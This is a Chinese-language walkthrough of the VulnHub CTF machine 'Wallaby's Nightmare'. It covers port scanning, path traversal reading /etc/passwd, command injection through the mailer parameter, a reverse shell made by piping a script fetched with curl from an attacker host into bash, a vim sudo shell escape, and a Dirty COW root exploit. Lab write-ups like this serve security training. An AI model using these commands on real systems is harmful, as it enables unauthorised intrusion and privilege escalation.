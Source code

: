 # Wallaby's: Nightmare (v1.0.2)

2024-8-10 https://www.vulnhub.com/entry/wallabys-nightmare-v102,176/

difficulty: begginer-intermediate

## IP

192.168.10.199

## Scan

Open Port -> 22,6667,60080

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e07fc702098f846e48d2eca3922c7be (RSA)
|   256 994605e7c2bace06c447c84f9f584c86 (ECDSA)
|_  256 4c87714faf1b7c3549ba5826c1dfb84f (ED25519)
6667/tcp  filtered irc
60080/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Wallaby's Server
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

先访问 80， 页面底部的 start ctf 存在文件包含， http://192.168.10.199:60080/?page=../../../../../../etc/passwd:

```
root:x:0:0:root:/root:/bin/bash
...
steven?:x:1001:1001::/home/steven?:/bin/bash
ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
```

只发现了 page 这里的一个参数，再次尝试对 page 参数进行 FUZZ:

```
ffuf -c -w /usr/share/dirb/wordlists/big.txt -u http://192.168.10.199:60080/?page=FUZZ -fs 899

blacklist               [Status: 200, Size: 994, Words: 202, Lines: 28, Duration: 5ms]
cgi-bin/                [Status: 200, Size: 900, Words: 181, Lines: 28, Duration: 8ms]
contact                 [Status: 200, Size: 895, Words: 182, Lines: 27, Duration: 3ms]
contact us              [Status: 200, Size: 895, Words: 182, Lines: 27, Duration: 4ms]
home page               [Status: 200, Size: 1147, Words: 220, Lines: 31, Duration: 3ms]
home                    [Status: 200, Size: 1147, Words: 220, Lines: 31, Duration: 4ms]
index                   [Status: 200, Size: 1362, Words: 279, Lines: 39, Duration: 4ms]
mailer                  [Status: 200, Size: 1085, Words: 204, Lines: 30, Duration: 1ms]
```

逐个访问这几个单词，并查看源码，发现:

```
http://192.168.10.199:60080/?page=mailer

<!--a href='/?page=mailer&mail=mail wallaby "message goes here"'><button type='button'>Sendmail</button-->
```

发现 mail 参数处可能存在命令执行，`http://192.168.10.199:60080/?page=mailer&mail=ls` 可以看到目录中的文件。

通过执行反弹 shell 得到 `http://192.168.10.199:60080/?page=mailer&mail=curl%20http://192.168.10.3/10.3/8888.sh|bash`

sudo -l 发现:

```
(waldo) NOPASSWD: /usr/bin/vim /etc/apache2/sites-available/000-default.conf
(ALL) NOPASSWD: /sbin/iptables
```

```
sudo /sbin/iptables -L

target     prot opt source               destination
ACCEPT     tcp  --  localhost            anywhere             tcp dpt:ircd
DROP       tcp  --  anywhere             anywhere             tcp dpt:ircd
```

将防火墙中的规则清空，放开 6667 端口: sudo iptables -D INPUT 2 , 这时再次扫描，就能看到 6667/tcp open irc UnrealIRCd 的 IRC 服务。

经过枚举，发现 wallaby 用户中有一个 run.py 文件:

```
www-data@ubuntu:/home/wallaby/.sopel/modules$ cat run.py
import sopel.module, subprocess, os
from sopel.module import example

@sopel.module.commands('run')
@example('.run ls')
def run(bot, trigger):
     if trigger.owner:
          os.system('%s' % trigger.group(2))
          runas1 = subprocess.Popen('%s' % trigger.group(2), stdout=subprocess.PIPE).communicate()[0]
          runas = str(runas1)
          bot.say(' '.join(runas.split('\\n')))
     else:
          bot.say('Hold on, you aren\'t Waldo?')

```

使用此命令切换到 waldo 用户：

```
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf
:!sh
```

发现在重启后，waldo 用户会执行下面的命令:

```
@reboot /home/waldo/irssi.sh

$ cat irssi.sh
#!/bin/bash
tmux new-session -d -s irssi
tmux send-keys -t irssi 'n' Enter
tmux send-keys -t irssi 'irssi' Enter
```

表示在 tmux 中启动 irssi 会话。

这里在 kali 上没找到简单的进入 irc 会话的程序，后面的就没有继续尝试。查询相关 wp 后，了解了大概的利用思路：关闭 waldo 的 tmux 会话，进入到 irc 聊天服务中，冒充 Waldo 用户，就可以执行命令进行反弹，得到 wallaby 的会话，sudo -l 是全部功能，就可以提权到 root。

得到了 www-data 的 webshell，使用 40616.cow.c 的脏牛可以提权，上传源码，gcc 编译后执行，得到了 root 权限:

```
root@ubuntu:/root# cat flag.txt
###CONGRATULATIONS###

You beat part 1 of 2 in the "Wallaby's Worst Knightmare" series of vms!!!!

This was my first vulnerable machine/CTF ever!  I hope you guys enjoyed playing it as much as I enjoyed making it!

Come to IRC and contact me if you find any errors or interesting ways to root, I'd love to hear about it.

Thanks guys!
-Waldo
```
